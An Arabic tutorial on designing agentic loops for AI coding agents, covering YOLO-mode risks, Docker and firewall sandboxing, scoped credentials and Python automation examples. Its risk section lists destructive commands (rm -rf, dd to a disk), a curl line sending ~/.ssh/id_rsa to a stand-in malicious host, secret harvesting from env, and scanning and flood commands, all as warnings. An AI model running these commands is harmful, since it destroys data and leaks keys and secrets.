

⏱️ **وقت القراءة المتوقع**: 12 دقيقة

## مقدمة

ظهور وكلاء الترميز مثل Claude Code من Anthropic و Codex CLI من OpenAI يمثل تحولاً ثورياً في كيفية التعامل مع تطوير البرمجيات. هذه الأدوات المدعومة بالذكاء الاصطناعي يمكنها كتابة الكود وتنفيذه وتصحيح الأخطاء والتكرار نحو الحلول بشكل مستقل. ومع ذلك، فإن إطلاق إمكاناتها الكاملة يتطلب إتقان مهارة جديدة مهمة: **تصميم الحلقات الوكيلة**.

سيرشدك هذا الدليل الشامل عبر المبادئ والممارسات واستراتيجيات التنفيذ لإنشاء حلقات وكيلة فعالة تعظم الإنتاجية والأمان لوكلاء الترميز بالذكاء الاصطناعي.

## ما هي الحلقات الوكيلة؟

**الحلقة الوكيلة** هي عملية منظمة حيث يقوم وكيل الذكاء الاصطناعي بتشغيل الأدوات بشكل متكرر لتحقيق هدف محدد. فكر فيها كنظام تغذية راجعة حيث يقوم الوكيل بـ:

1. **التحليل**: تحليل الحالة الحالية
2. **التنفيذ**: تنفيذ إجراء باستخدام الأدوات المتاحة
3. **التقييم**: تقييم النتائج
4. **التكرار**: التكرار بناءً على التغذية الراجعة
5. **الاستمرار**: المتابعة حتى تحقيق الهدف

### المكونات الأساسية



تعتمد فعالية الحلقة الوكيلة على ثلاثة عوامل رئيسية:
- **تعريف واضح للهدف**
- **اختيار مناسب للأدوات**
- **آليات تغذية راجعة قوية**

## فهم وضع YOLO

### قوة ومخاطر الأتمتة

يشير وضع YOLO (You Only Live Once) إلى تشغيل الوكلاء بأقل تدخل بشري، حيث تنفذ الأوامر تلقائياً دون مطالبات الموافقة. بينما يزيد هذا من الإنتاجية بشكل كبير، فإنه يقدم أيضاً مخاطر كبيرة.

### تقييم المخاطر

#### 1. مخاطر تلف النظام
```bash
# أوامر خطيرة يمكن أن تسبب ضرراً
rm -rf /important-directory
sudo chmod -R 777 /
dd if=/dev/zero of=/dev/sda
```

#### 2. مخاطر تسريب البيانات
```bash
# أوامر يمكن أن تسرب بيانات حساسة
curl -X POST https://malicious-site.com -d "$(cat ~/.ssh/id_rsa)"
env | grep -E "(API_KEY|PASSWORD|SECRET)" > /tmp/secrets.txt
```

#### 3. مخاطر الهجمات الشبكية
```bash
# أوامر يمكن أن تستخدم جهازك للهجمات
nmap -sS target-network.com
curl -X POST flood-target.com --data-binary @large-file.bin
```

### استراتيجيات تنفيذ YOLO الآمن

#### الخيار 1: الحماية بالحاويات

إنشاء بيئة Docker آمنة:

```dockerfile
# Dockerfile لحماية الوكيل
FROM ubuntu:22.04

# تثبيت الأدوات الضرورية
RUN apt-get update && apt-get install -y \
    python3 \
    python3-pip \
    nodejs \
    npm \
    git \
    curl \
    && rm -rf /var/lib/apt/lists/*

# إنشاء مستخدم غير جذر
RUN useradd -m -s /bin/bash agent
USER agent
WORKDIR /home/agent

# تقييد الوصول للشبكة (اختياري)
# RUN echo "127.0.0.1 localhost" > /etc/hosts
```

تشغيل الحاوية مع القيود:
```bash
# تشغيل حاوية آمنة
docker run -it \
  --network none \
  --memory="2g" \
  --cpus="1.0" \
  --read-only \
  --tmpfs /tmp \
  agent-sandbox:latest
```

#### الخيار 2: البيئات السحابية

**إعداد GitHub Codespaces:**

```yaml
# .devcontainer/devcontainer.json
{
  "name": "Agent Sandbox",
  "image": "mcr.microsoft.com/devcontainers/universal:2",
  "features": {
    "ghcr.io/devcontainers/features/docker-in-docker:2": {}
  },
  "customizations": {
    "vscode": {
      "extensions": [
        "ms-python.python",
        "ms-vscode.vscode-json"
      ]
    }
  },
  "postCreateCommand": "pip install -r requirements.txt"
}
```

#### الخيار 3: البيئة المقيدة الشبكة

تكوين قواعد الجدار الناري لتقييد الاتصالات الصادرة:

```bash
# السماح لنطاقات محددة فقط
sudo ufw default deny outgoing
sudo ufw allow out to pypi.org
sudo ufw allow out to npmjs.com
sudo ufw allow out to github.com
sudo ufw enable
```

## اختيار وتكوين الأدوات

### فئات الأدوات الأساسية

#### 1. أدوات التطوير
```bash
# مديري الحزم
pip install package-name
npm install package-name
cargo install package-name

# أدوات البناء
make build
cmake --build .
gradle build

# إدارة الإصدارات
git clone repository-url
git commit -m "message"
git push origin branch
```

#### 2. أدوات الاختبار والتحقق
```bash
# اختبار الوحدة
pytest tests/
npm test
cargo test

# التدقيق والتنسيق
pylint src/
eslint src/
rustfmt src/

# فحص الأمان
bandit -r src/
npm audit
cargo audit
```

#### 3. أدوات النشر والبنية التحتية
```bash
# الحاويات
docker build -t app:latest .
docker run -p 8080:8080 app:latest

# النشر السحابي
kubectl apply -f deployment.yaml
terraform apply
aws s3 sync ./build s3://bucket-name
```

### إنشاء توثيق الأدوات

إنشاء ملف `AGENTS.md` لتوجيه وكيل الذكاء الاصطناعي:

```markdown
# توثيق أدوات الوكيل

## أداة لقطة الشاشة
لأخذ لقطة شاشة لموقع ويب:
```bash
shot-scraper https://example.com -w 1200 -h 800 -o screenshot.png
```

## عمليات قاعدة البيانات
لتشغيل ترحيل قاعدة البيانات:
```bash
python manage.py migrate
```

لإنشاء نسخة احتياطية:
```bash
pg_dump database_name > backup.sql
```

## اختبار API
لاختبار نقاط النهاية:
```bash
curl -X POST https://api.example.com/endpoint \
  -H "Content-Type: application/json" \
  -d '{"key": "value"}'
```
```

### التكامل المتقدم للأدوات

#### دوال Shell المخصصة

```bash
# إضافات ~/.bashrc للوكلاء
agent_deploy() {
    echo "نشر إلى بيئة $1..."
    if [ "$1" = "staging" ]; then
        docker build -t app:staging .
        docker push registry.com/app:staging
        kubectl set image deployment/app app=registry.com/app:staging
    fi
}

agent_test() {
    echo "تشغيل الاختبارات الشاملة..."
    pytest --cov=src tests/
    npm run test:e2e
    docker run --rm -v $(pwd):/app security-scanner
}
```

## إدارة بيانات الاعتماد والأمان

### مبدأ أقل امتياز

#### بيانات اعتماد خاصة بالبيئة

```bash
# متغيرات بيئة التطوير
export API_URL="https://api-dev.example.com"
export DB_HOST="dev-db.example.com"
export BUDGET_LIMIT="5.00"

# بيئة التجهيز
export API_URL="https://api-staging.example.com"
export DB_HOST="staging-db.example.com"
export BUDGET_LIMIT="50.00"
```

#### مفاتيح API محدودة النطاق

إنشاء حسابات خدمة مخصصة بأقل الصلاحيات:

```yaml
# سياسة AWS IAM للوكيل
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Effect": "Allow",
      "Action": [
        "s3:GetObject",
        "s3:PutObject"
      ],
      "Resource": "arn:aws:s3:::agent-sandbox/*"
    },
    {
      "Effect": "Allow",
      "Action": [
        "lambda:InvokeFunction"
      ],
      "Resource": "arn:aws:lambda:*:*:function:agent-*"
    }
  ]
}
```

#### ضوابط الميزانية

```python
# سكريبت مراقبة الميزانية
import boto3
import os

def check_budget():
    client = boto3.client('budgets')
    budget_name = os.environ.get('BUDGET_NAME', 'agent-budget')
    
    response = client.describe_budget(
        AccountId=os.environ['AWS_ACCOUNT_ID'],
        BudgetName=budget_name
    )
    
    actual_spend = response['Budget']['CalculatedSpend']['ActualSpend']['Amount']
    budget_limit = response['Budget']['BudgetLimit']['Amount']
    
    if float(actual_spend) > float(budget_limit) * 0.8:
        raise Exception(f"اقتراب من حد الميزانية: ${actual_spend}/${budget_limit}")

# تشغيل قبل العمليات المكلفة
check_budget()
```

## أمثلة التنفيذ العملية

### مثال 1: خط أنابيب الاختبار الآلي

```python
# test_automation_agent.py
import subprocess
import json
import time

class TestAutomationAgent:
    def __init__(self, project_path):
        self.project_path = project_path
        self.results = []
    
    def run_unit_tests(self):
        """تنفيذ اختبارات الوحدة وتسجيل النتائج"""
        try:
            result = subprocess.run(
                ['pytest', '--json-report', '--json-report-file=test_results.json'],
                cwd=self.project_path,
                capture_output=True,
                text=True,
                timeout=300
            )
            
            with open(f"{self.project_path}/test_results.json", 'r') as f:
                test_data = json.load(f)
            
            self.results.append({
                'type': 'unit_tests',
                'passed': test_data['summary']['passed'],
                'failed': test_data['summary']['failed'],
                'duration': test_data['summary']['duration']
            })
            
            return result.returncode == 0
        except subprocess.TimeoutExpired:
            self.results.append({
                'type': 'unit_tests',
                'error': 'timeout',
                'duration': 300
            })
            return False
    
    def run_integration_tests(self):
        """تنفيذ اختبارات التكامل"""
        try:
            result = subprocess.run(
                ['npm', 'run', 'test:integration'],
                cwd=self.project_path,
                capture_output=True,
                text=True,
                timeout=600
            )
            
            self.results.append({
                'type': 'integration_tests',
                'success': result.returncode == 0,
                'output': result.stdout[-500:]  # آخر 500 حرف
            })
            
            return result.returncode == 0
        except subprocess.TimeoutExpired:
            return False
    
    def optimize_failing_tests(self):
        """تحليل ومحاولة إصلاح الاختبارات الفاشلة"""
        if not self.results:
            return False
        
        failed_tests = [r for r in self.results if not r.get('success', True)]
        
        for test in failed_tests:
            if test['type'] == 'unit_tests':
                self.fix_unit_test_issues()
            elif test['type'] == 'integration_tests':
                self.fix_integration_issues()
        
        return True
    
    def fix_unit_test_issues(self):
        """محاولة إصلاح مشاكل اختبار الوحدة الشائعة"""
        # تشغيل التدقيق أولاً
        subprocess.run(['pylint', '--fix', 'src/'], cwd=self.project_path)
        
        # تحديث التبعيات
        subprocess.run(['pip', 'install', '--upgrade', '-r', 'requirements.txt'], 
                      cwd=self.project_path)
    
    def fix_integration_issues(self):
        """محاولة إصلاح مشاكل اختبار التكامل"""
        # إعادة تشغيل الخدمات
        subprocess.run(['docker-compose', 'restart'], cwd=self.project_path)
        time.sleep(10)  # انتظار بدء الخدمات
    
    def generate_report(self):
        """إنشاء تقرير اختبار شامل"""
        report = {
            'timestamp': time.time(),
            'results': self.results,
            'summary': {
                'total_tests': len(self.results),
                'passed': len([r for r in self.results if r.get('success', True)]),
                'failed': len([r for r in self.results if not r.get('success', True)])
            }
        }
        
        with open(f"{self.project_path}/agent_test_report.json", 'w') as f:
            json.dump(report, f, indent=2)
        
        return report

# مثال الاستخدام
if __name__ == "__main__":
    agent = TestAutomationAgent("/path/to/project")
    
    # تشغيل الحلقة الوكيلة
    max_iterations = 3
    iteration = 0
    
    while iteration < max_iterations:
        print(f"التكرار {iteration + 1}")
        
        unit_success = agent.run_unit_tests()
        integration_success = agent.run_integration_tests()
        
        if unit_success and integration_success:
            print("نجحت جميع الاختبارات!")
            break
        
        print("فشلت الاختبارات، محاولة الإصلاح...")
        agent.optimize_failing_tests()
        iteration += 1
    
    # إنشاء التقرير النهائي
    report = agent.generate_report()
    print(f"التقرير النهائي: {report['summary']}")
```

### مثال 2: حلقة تحسين الأداء

```python
# performance_optimization_agent.py
import subprocess
import time
import json
import statistics

class PerformanceOptimizationAgent:
    def __init__(self, app_url, optimization_targets):
        self.app_url = app_url
        self.targets = optimization_targets
        self.baseline_metrics = None
        self.optimization_history = []
    
    def measure_performance(self):
        """قياس أداء التطبيق الحالي"""
        metrics = {}
        
        # قياس وقت التحميل
        load_times = []
        for _ in range(5):  # 5 قياسات
            start_time = time.time()
            result = subprocess.run([
                'curl', '-w', '%{time_total}', '-o', '/dev/null', '-s', self.app_url
            ], capture_output=True, text=True)
            
            if result.returncode == 0:
                load_times.append(float(result.stdout.strip()))
            time.sleep(1)
        
        if load_times:
            metrics['avg_load_time'] = statistics.mean(load_times)
            metrics['min_load_time'] = min(load_times)
            metrics['max_load_time'] = max(load_times)
        
        # استخدام الذاكرة (عند التشغيل محلياً)
        try:
            result = subprocess.run([
                'docker', 'stats', '--no-stream', '--format', 
                'table {{.Container}}\t{{.MemUsage}}'
            ], capture_output=True, text=True)
            
            if result.returncode == 0:
                lines = result.stdout.strip().split('\n')[1:]  # تخطي الرأس
                for line in lines:
                    if 'app' in line.lower():
                        mem_usage = line.split('\t')[1].split('/')[0].strip()
                        metrics['memory_usage'] = mem_usage
                        break
        except:
            pass
        
        return metrics
    
    def apply_optimization(self, optimization_type):
        """تطبيق تقنية تحسين محددة"""
        success = False
        
        if optimization_type == 'enable_gzip':
            # تفعيل ضغط gzip
            config_update = """
location / {
    gzip on;
    gzip_types text/plain text/css application/json application/javascript;
    try_files $uri $uri/ =404;
}
"""
            success = self.update_nginx_config(config_update)
        
        elif optimization_type == 'add_caching':
            # إضافة رؤوس التخزين المؤقت للمتصفح
            config_update = """
location ~* \.(js|css|png|jpg|jpeg|gif|ico|svg)$ {
    expires 1y;
    add_header Cache-Control "public, immutable";
}
"""
            success = self.update_nginx_config(config_update)
        
        elif optimization_type == 'optimize_images':
            # تحسين الصور
            result = subprocess.run([
                'find', '.', '-name', '*.jpg', '-exec', 
                'jpegoptim', '--max=85', '{}', ';'
            ], capture_output=True)
            success = result.returncode == 0
        
        elif optimization_type == 'minify_assets':
            # ضغط CSS و JS
            result = subprocess.run(['npm', 'run', 'build:prod'], 
                                  capture_output=True)
            success = result.returncode == 0
        
        # إعادة تشغيل التطبيق بعد التغييرات
        if success:
            subprocess.run(['docker-compose', 'restart', 'app'])
            time.sleep(10)  # انتظار إعادة التشغيل
        
        return success
    
    def update_nginx_config(self, config_snippet):
        """تحديث تكوين nginx"""
        try:
            # قراءة التكوين الحالي
            with open('nginx.conf', 'r') as f:
                current_config = f.read()
            
            # إضافة التكوين الجديد
            updated_config = current_config.replace(
                'location / {',
                f'location / {{\n{config_snippet}'
            )
            
            # كتابة التكوين المحدث
            with open('nginx.conf', 'w') as f:
                f.write(updated_config)
            
            return True
        except Exception as e:
            print(f"فشل في تحديث تكوين nginx: {e}")
            return False
    
    def evaluate_improvement(self, before_metrics, after_metrics):
        """تقييم ما إذا كان التحسين قد حسن الأداء"""
        improvements = {}
        
        for metric in before_metrics:
            if metric in after_metrics:
                before_val = before_metrics[metric]
                after_val = after_metrics[metric]
                
                if isinstance(before_val, (int, float)) and isinstance(after_val, (int, float)):
                    improvement = ((before_val - after_val) / before_val) * 100
                    improvements[metric] = improvement
        
        return improvements
    
    def run_optimization_loop(self):
        """حلقة التحسين الرئيسية"""
        print("بدء تحسين الأداء...")
        
        # تحديد خط الأساس
        self.baseline_metrics = self.measure_performance()
        print(f"مقاييس خط الأساس: {self.baseline_metrics}")
        
        optimizations = [
            'enable_gzip',
            'add_caching', 
            'optimize_images',
            'minify_assets'
        ]
        
        for optimization in optimizations:
            print(f"\nتطبيق التحسين: {optimization}")
            
            # القياس قبل التطبيق
            before_metrics = self.measure_performance()
            
            # تطبيق التحسين
            if self.apply_optimization(optimization):
                # انتظار تأثير التغييرات
                time.sleep(5)
                
                # القياس بعد التطبيق
                after_metrics = self.measure_performance()
                
                # تقييم التحسن
                improvements = self.evaluate_improvement(before_metrics, after_metrics)
                
                optimization_result = {
                    'optimization': optimization,
                    'before_metrics': before_metrics,
                    'after_metrics': after_metrics,
                    'improvements': improvements,
                    'timestamp': time.time()
                }
                
                self.optimization_history.append(optimization_result)
                
                print(f"النتائج: {improvements}")
                
                # فحص تحقيق الأهداف
                if self.check_targets_met(after_metrics):
                    print("تم تحقيق أهداف الأداء!")
                    break
            else:
                print(f"فشل في تطبيق التحسين: {optimization}")
        
        return self.generate_optimization_report()
    
    def check_targets_met(self, current_metrics):
        """فحص ما إذا تم تحقيق أهداف الأداء"""
        for target_metric, target_value in self.targets.items():
            if target_metric in current_metrics:
                if current_metrics[target_metric] > target_value:
                    return False
        return True
    
    def generate_optimization_report(self):
        """إنشاء تقرير تحسين شامل"""
        report = {
            'baseline_metrics': self.baseline_metrics,
            'optimization_history': self.optimization_history,
            'final_metrics': self.measure_performance(),
            'targets': self.targets,
            'targets_met': self.check_targets_met(self.measure_performance()),
            'timestamp': time.time()
        }
        
        with open('performance_optimization_report.json', 'w') as f:
            json.dump(report, f, indent=2)
        
        return report

# مثال الاستخدام
if __name__ == "__main__":
    targets = {
        'avg_load_time': 2.0,  # الهدف: أقل من ثانيتين
        'max_load_time': 3.0   # الهدف: حد أقصى 3 ثوان
    }
    
    agent = PerformanceOptimizationAgent('http://localhost:8080', targets)
    report = agent.run_optimization_loop()
    
    print(f"\nاكتمل التحسين!")
    print(f"تحقيق الأهداف: {report['targets_met']}")
    print(f"المقاييس النهائية: {report['final_metrics']}")
```

## متى تستخدم الحلقات الوكيلة

### السيناريوهات المثالية

#### 1. تصحيح المشاكل المعقدة
```python
# مثال وكيل التصحيح
class DebuggingAgent:
    def __init__(self, failing_test):
        self.failing_test = failing_test
        self.investigation_steps = []
    
    def investigate_failure(self):
        # تشغيل الاختبار في الوضع المفصل
        self.run_verbose_test()
        
        # فحص السجلات
        self.analyze_logs()
        
        # فحص التبعيات
        self.check_dependencies()
        
        # محاولة الإصلاحات المحتملة
        self.attempt_fixes()
    
    def run_verbose_test(self):
        result = subprocess.run([
            'pytest', '-v', '-s', '--tb=long', self.failing_test
        ], capture_output=True, text=True)
        
        self.investigation_steps.append({
            'step': 'verbose_test',
            'output': result.stdout,
            'errors': result.stderr
        })
    
    def analyze_logs(self):
        # فحص سجلات التطبيق
        log_files = ['app.log', 'error.log', 'debug.log']
        for log_file in log_files:
            if os.path.exists(log_file):
                with open(log_file, 'r') as f:
                    recent_logs = f.readlines()[-100:]  # آخر 100 سطر
                
                self.investigation_steps.append({
                    'step': f'analyze_{log_file}',
                    'content': recent_logs
                })
```

#### 2. إدارة التبعيات
```bash
#!/bin/bash
# dependency_upgrade_agent.sh

echo "بدء عملية ترقية التبعيات..."

# فحص الإصدارات الحالية
pip list --outdated > outdated_packages.txt

# ترقية الحزم واحدة تلو الأخرى
while IFS= read -r line; do
    package=$(echo $line | awk '{print $1}')
    
    if [ "$package" != "Package" ] && [ "$package" != "---" ]; then
        echo "ترقية $package..."
        
        # إنشاء نسخة احتياطية من requirements
        cp requirements.txt requirements.txt.backup
        
        # ترقية الحزمة
        pip install --upgrade $package
        
        # تشغيل الاختبارات
        if pytest tests/ --maxfail=1; then
            echo "نجحت ترقية $package"
            pip freeze | grep $package >> requirements.txt.new
        else
            echo "فشلت ترقية $package، التراجع"
            pip install -r requirements.txt.backup
        fi
    fi
done < outdated_packages.txt
```

#### 3. تحسين الحاويات
```python
# container_optimization_agent.py
import docker
import subprocess
import json

class ContainerOptimizationAgent:
    def __init__(self, image_name):
        self.image_name = image_name
        self.client = docker.from_env()
        self.optimization_attempts = []
    
    def measure_image_size(self, tag):
        """قياس حجم صورة Docker"""
        try:
            image = self.client.images.get(f"{self.image_name}:{tag}")
            return image.attrs['Size']
        except:
            return None
    
    def try_base_image_optimization(self):
        """تجربة صور أساسية مختلفة"""
        base_images = [
            'python:3.11-slim',
            'python:3.11-alpine',
            'python:3.11-slim-bullseye'
        ]
        
        results = []
        
        for base_image in base_images:
            # إنشاء Dockerfile محسن
            dockerfile_content = f"""
FROM {base_image}

WORKDIR /app

# نسخ requirements أولاً للتخزين المؤقت الأفضل
COPY requirements.txt .
RUN pip install --no-cache-dir -r requirements.txt

# نسخ كود التطبيق
COPY . .

# إنشاء مستخدم غير جذر
RUN adduser --disabled-password --gecos '' appuser
USER appuser

EXPOSE 8000
CMD ["python", "app.py"]
"""
            
            # كتابة Dockerfile
            with open('Dockerfile.optimized', 'w') as f:
                f.write(dockerfile_content)
            
            # بناء الصورة
            tag = f"optimized-{base_image.replace(':', '-').replace('/', '-')}"
            build_result = subprocess.run([
                'docker', 'build', '-f', 'Dockerfile.optimized', 
                '-t', f"{self.image_name}:{tag}", '.'
            ], capture_output=True, text=True)
            
            if build_result.returncode == 0:
                size = self.measure_image_size(tag)
                results.append({
                    'base_image': base_image,
                    'tag': tag,
                    'size': size,
                    'size_mb': size / (1024 * 1024) if size else None
                })
        
        return results
    
    def optimize_layers(self):
        """تحسين طبقات Docker"""
        optimized_dockerfile = """
FROM python:3.11-slim

# دمج أوامر RUN لتقليل الطبقات
RUN apt-get update && apt-get install -y \\
    gcc \\
    && rm -rf /var/lib/apt/lists/* \\
    && pip install --no-cache-dir --upgrade pip

WORKDIR /app

# نسخ وتثبيت التبعيات
COPY requirements.txt .
RUN pip install --no-cache-dir -r requirements.txt \\
    && pip cache purge

# نسخ كود التطبيق
COPY . .

# إنشاء المستخدم وتعيين الصلاحيات في طبقة واحدة
RUN adduser --disabled-password --gecos '' appuser \\
    && chown -R appuser:appuser /app

USER appuser
EXPOSE 8000
CMD ["python", "app.py"]
"""
        
        with open('Dockerfile.layered', 'w') as f:
            f.write(optimized_dockerfile)
        
        # بناء الصورة المحسنة
        result = subprocess.run([
            'docker', 'build', '-f', 'Dockerfile.layered',
            '-t', f"{self.image_name}:layered", '.'
        ], capture_output=True, text=True)
        
        return result.returncode == 0
    
    def run_optimization_loop(self):
        """حلقة التحسين الرئيسية"""
        # قياس الحجم الأصلي
        original_size = self.measure_image_size('latest')
        
        print(f"حجم الصورة الأصلية: {original_size / (1024*1024):.2f} MB")
        
        # تجربة تحسينات الصورة الأساسية
        base_results = self.try_base_image_optimization()
        
        # العثور على أفضل صورة أساسية
        if base_results:
            best_base = min(base_results, key=lambda x: x['size'] or float('inf'))
            print(f"أفضل صورة أساسية: {best_base['base_image']} "
                  f"({best_base['size_mb']:.2f} MB)")
        
        # تجربة تحسين الطبقات
        if self.optimize_layers():
            layered_size = self.measure_image_size('layered')
            print(f"حجم تحسين الطبقات: {layered_size / (1024*1024):.2f} MB")
        
        # إنشاء التقرير
        return self.generate_report(original_size, base_results)
    
    def generate_report(self, original_size, base_results):
        """إنشاء تقرير التحسين"""
        report = {
            'original_size_mb': original_size / (1024*1024),
            'base_image_results': base_results,
            'best_optimization': min(base_results, key=lambda x: x['size'] or float('inf')),
            'size_reduction_percent': 0
        }
        
        if base_results:
            best_size = report['best_optimization']['size']
            report['size_reduction_percent'] = (
                (original_size - best_size) / original_size * 100
            )
        
        with open('container_optimization_report.json', 'w') as f:
            json.dump(report, f, indent=2)
        
        return report

# الاستخدام
if __name__ == "__main__":
    agent = ContainerOptimizationAgent('my-app')
    report = agent.run_optimization_loop()
    print(f"تقليل الحجم: {report['size_reduction_percent']:.1f}%")
```

## أفضل الممارسات والإرشادات

### 1. ابدأ بسيط، كرر معقد

```python
# قالب حلقة وكيلة بسيطة
class SimpleAgenticLoop:
    def __init__(self, goal, tools, max_iterations=10):
        self.goal = goal
        self.tools = tools
        self.max_iterations = max_iterations
        self.iteration_count = 0
        self.history = []
    
    def evaluate_progress(self):
        """تجاوز هذه الطريقة لتعريف معايير النجاح"""
        raise NotImplementedError
    
    def select_next_action(self):
        """تجاوز هذه الطريقة لتعريف منطق اختيار الإجراء"""
        raise NotImplementedError
    
    def execute_action(self, action):
        """تجاوز هذه الطريقة لتعريف تنفيذ الإجراء"""
        raise NotImplementedError
    
    def run(self):
        """تنفيذ الحلقة الرئيسية"""
        while self.iteration_count < self.max_iterations:
            # فحص تحقيق الهدف
            if self.evaluate_progress():
                return True
            
            # اختيار وتنفيذ الإجراء التالي
            action = self.select_next_action()
            result = self.execute_action(action)
            
            # تسجيل التاريخ
            self.history.append({
                'iteration': self.iteration_count,
                'action': action,
                'result': result,
                'timestamp': time.time()
            })
            
            self.iteration_count += 1
        
        return False  # وصل إلى الحد الأقصى للتكرارات
```

### 2. تنفيذ معالجة أخطاء قوية

```python
import traceback
import logging

class RobustAgenticLoop(SimpleAgenticLoop):
    def __init__(self, *args, **kwargs):
        super().__init__(*args, **kwargs)
        self.logger = logging.getLogger(__name__)
        self.error_count = 0
        self.max_errors = 3
    
    def execute_action_safely(self, action):
        """تنفيذ الإجراء مع معالجة الأخطاء"""
        try:
            return self.execute_action(action)
        except Exception as e:
            self.error_count += 1
            self.logger.error(f"فشل الإجراء: {action}، الخطأ: {str(e)}")
            self.logger.error(f"التتبع: {traceback.format_exc()}")
            
            if self.error_count >= self.max_errors:
                raise Exception(f"أخطاء كثيرة جداً ({self.max_errors})، إيقاف الحلقة")
            
            return {'error': str(e), 'action': action}
    
    def run(self):
        """تشغيل محسن مع معالجة الأخطاء"""
        try:
            return super().run()
        except Exception as e:
            self.logger.error(f"فشلت الحلقة: {str(e)}")
            return False
```

### 3. مراقبة استخدام الموارد

```python
import psutil
import time

class ResourceMonitoredLoop(RobustAgenticLoop):
    def __init__(self, *args, **kwargs):
        super().__init__(*args, **kwargs)
        self.max_memory_mb = kwargs.get('max_memory_mb', 1000)
        self.max_cpu_percent = kwargs.get('max_cpu_percent', 80)
    
    def check_resources(self):
        """مراقبة موارد النظام"""
        memory_usage = psutil.virtual_memory().used / (1024 * 1024)  # MB
        cpu_usage = psutil.cpu_percent(interval=1)
        
        if memory_usage > self.max_memory_mb:
            raise Exception(f"استخدام ذاكرة عالي جداً: {memory_usage:.1f}MB")
        
        if cpu_usage > self.max_cpu_percent:
            self.logger.warning(f"استخدام CPU عالي: {cpu_usage:.1f}%")
            time.sleep(2)  # توقف قصير لتقليل الحمل
    
    def execute_action_safely(self, action):
        """تنفيذ مع مراقبة الموارد"""
        self.check_resources()
        return super().execute_action_safely(action)
```

## الأنماط والتقنيات المتقدمة

### 1. تنسيق الوكلاء المتعددين

```python
class MultiAgentCoordinator:
    def __init__(self, agents):
        self.agents = agents
        self.shared_state = {}
        self.coordination_history = []
    
    def coordinate_agents(self, task):
        """تنسيق وكلاء متعددين في مهمة معقدة"""
        # تفكيك المهمة إلى مهام فرعية
        subtasks = self.decompose_task(task)
        
        # تعيين المهام الفرعية للوكلاء
        assignments = self.assign_subtasks(subtasks)
        
        # تنفيذ التعيينات بالتوازي أو التسلسل
        results = self.execute_assignments(assignments)
        
        # دمج النتائج
        final_result = self.merge_results(results)
        
        return final_result
    
    def decompose_task(self, task):
        """تفكيك المهمة المعقدة إلى مهام فرعية قابلة للإدارة"""
        if task['type'] == 'full_stack_development':
            return [
                {'type': 'backend_api', 'priority': 1},
                {'type': 'database_schema', 'priority': 1},
                {'type': 'frontend_ui', 'priority': 2},
                {'type': 'integration_tests', 'priority': 3}
            ]
        return [task]
    
    def assign_subtasks(self, subtasks):
        """تعيين المهام الفرعية للوكلاء المناسبين"""
        assignments = []
        
        for subtask in subtasks:
            best_agent = self.find_best_agent(subtask)
            assignments.append({
                'agent': best_agent,
                'subtask': subtask
            })
        
        return assignments
    
    def find_best_agent(self, subtask):
        """العثور على أنسب وكيل للمهمة الفرعية"""
        for agent in self.agents:
            if subtask['type'] in agent.capabilities:
                return agent
        
        # العودة للوكيل العام
        return self.agents[0]
```

### 2. التعلم والتكيف

```python
class LearningAgenticLoop(ResourceMonitoredLoop):
    def __init__(self, *args, **kwargs):
        super().__init__(*args, **kwargs)
        self.success_patterns = {}
        self.failure_patterns = {}
    
    def learn_from_history(self):
        """تحليل التاريخ لتحسين القرارات المستقبلية"""
        for entry in self.history:
            action_type = entry['action']['type']
            was_successful = entry['result'].get('success', False)
            
            if was_successful:
                if action_type not in self.success_patterns:
                    self.success_patterns[action_type] = []
                self.success_patterns[action_type].append(entry)
            else:
                if action_type not in self.failure_patterns:
                    self.failure_patterns[action_type] = []
                self.failure_patterns[action_type].append(entry)
    
    def select_next_action(self):
        """اختيار إجراء محسن بناءً على التعلم"""
        # التعلم من التكرارات السابقة
        self.learn_from_history()
        
        # الحصول على اختيار الإجراء الأساسي
        base_action = super().select_next_action()
        
        # التعديل بناءً على الأنماط المتعلمة
        action_type = base_action['type']
        
        if action_type in self.failure_patterns:
            # هذا النوع من الإجراءات فشل من قبل، جرب البدائل
            alternatives = self.get_alternative_actions(action_type)
            if alternatives:
                return alternatives[0]
        
        return base_action
    
    def get_alternative_actions(self, failed_action_type):
        """الحصول على إجراءات بديلة عند فشل النهج الأساسي"""
        alternatives_map = {
            'direct_fix': ['gradual_fix', 'rollback_and_retry'],
            'full_rebuild': ['incremental_build', 'cached_build'],
            'automated_test': ['manual_verification', 'staged_testing']
        }
        
        return alternatives_map.get(failed_action_type, [])
```

## الخلاصة

تصميم الحلقات الوكيلة الفعالة مهارة حاسمة لتعظيم إمكانات وكلاء الترميز بالذكاء الاصطناعي. باتباع المبادئ والممارسات الموضحة في هذا الدليل، يمكنك إنشاء سير عمل آلي قوي وآمن ومنتج يعزز بشكل كبير عملية التطوير الخاصة بك.

### النقاط الرئيسية

1. **الأمان أولاً**: قم دائماً بتنفيذ الحماية والتدابير الأمنية المناسبة قبل تفعيل وضع YOLO
2. **أهداف واضحة**: حدد معايير نجاح محددة وقابلة للقياس لحلقاتك الوكيلة
3. **اختيار الأدوات**: اختر الأدوات المناسبة وقدم توثيقاً واضحاً لوكلائك
4. **التحسين التكراري**: ابدأ بسيط وأضف التعقيد تدريجياً مع اكتساب الخبرة
5. **المراقبة والتعلم**: نفذ آليات التسجيل والمراقبة والتعلم للتحسن مع الوقت

### الخطوات التالية

1. **الممارسة**: ابدأ بمهام أتمتة بسيطة في بيئة آمنة
2. **التجريب**: جرب مجموعات أدوات وتصاميم حلقات مختلفة
3. **المشاركة**: وثق تجاربك وشارك التعلم مع المجتمع
4. **التوسع**: طبق الحلقات الوكيلة تدريجياً على مهام أكثر تعقيداً وقيمة

